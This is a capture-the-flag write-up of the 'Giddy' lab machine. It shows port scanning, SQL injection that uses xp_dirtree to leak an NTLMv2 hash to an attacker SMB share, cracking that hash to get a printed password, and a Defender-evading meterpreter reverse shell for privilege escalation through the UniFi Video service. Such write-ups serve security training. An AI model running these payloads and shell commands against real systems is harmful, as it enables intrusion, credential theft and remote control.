 # Giddy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.140 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 10:00 EDT
Nmap scan report for 10.129.96.140
Host is up (0.0083s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

Both RDP and WinRM are accessible on this machine, which is new.&#x20;

### SQLI --> Stacy Shell

Port 80 just shows a cute image:

<figure><img src="../../../.gitbook/assets/image (657).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on this, and found 2 directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.96.140 -t 100 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.140
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/08 10:02:08 Starting gobuster in directory enumeration mode
===============================================================
/remote               (Status: 302) [Size: 157] [--> /Remote/default.aspx?ReturnUrl=%2fremote]
/mvc                  (Status: 301) [Size: 148] [--> http://10.129.96.140/mvc/]
```

Visiting it reveals a Windows Powershell Web Access page:

<figure><img src="../../../.gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

The MVC site reveals some online store:

<figure><img src="../../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

When products are viewed, it loads this URL:

```
http://10.129.96.140/mvc/Product.aspx?ProductSubCategoryId=18
```

If we replace the number with a `'` character, a lot of SQL errors are returned:

<figure><img src="../../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to SQL injection. Googling any of the errors here reveals that this is MSSQL, which we can actually get RCE from through `xp_cmdshell`.&#x20;

```sql
2; EXEC master ..xp_dirtree '\\10.10.14.13\share'; --
```

We can start `responder` and intercept the response by sending the above command:

<figure><img src="../../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

Then we can crack this hash easily using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)     
1g 0:00:00:00 DONE (2023-05-08 10:10) 1.020g/s 2744Kp/s 2744Kc/s 2744KC/s xabat..x6forever
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

By right, this machine came our before `evil-winrm`, so the intentional route is to use the Remote Powershell Web Access to download and execute a reverse shell. I did it the `evil-winrm` way.

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Unifivideo

Within the Documents directory, there's one folder present:

```
*Evil-WinRM* PS C:\Users\Stacy\documents> dir


    Directory: C:\Users\Stacy\documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo

*Evil-WinRM* PS C:\Users\Stacy\documents> type unifivideo
stop
```

Also, we can enumerate and see that Windows Defender is enabled for this machine, meaning any payload we use has to be obfuscated and encoded.&#x20;

```
*Evil-WinRM* PS C:\Users\Stacy\documents> cmd.exe /c "sc query windefend"

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

So we cannot run WinPEAS on this machine too. I decided to check if the Powershell history files were present still, because it could contain some good information, and it did exist:

```
*Evil-WinRM* PS C:\Users\Stacy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net stop unifivideoservice
$ExecutionContext.SessionState.LanguageMode
Stop-Service -Name Unifivideoservice -Force
Get-Service -Name Unifivideoservice
whoami
Get-Service -ServiceName UniFiVideoService
```

Now we can exploit this.&#x20;

{% embed url="https://www.exploit-db.com/exploits/43390" %}

We need to create a reverse shell file that would bypass Windows Defender. I was a bit lazy, so I used `msfconsole` to generate this:

```
use evasion/windows/windows_defender_exe
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
[+] OFVDGEyW.exe stored at /home/kali/.msf4/local/OFVDGEyW.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
```

Afterwards, we just need to transfer this reverse shell over and name it as `taskkill.exe` within `C:\programdata\unifi-video` and then run the `stop-service -name Unifivideoservice` command.

<figure><img src="../../../.gitbook/assets/image (633).png" alt=""><figcaption></figcaption></figure>

Then, we would get a meterpreter shell on the listener:

<figure><img src="../../../.gitbook/assets/image (642).png" alt=""><figcaption></figcaption></figure>

Rooted!
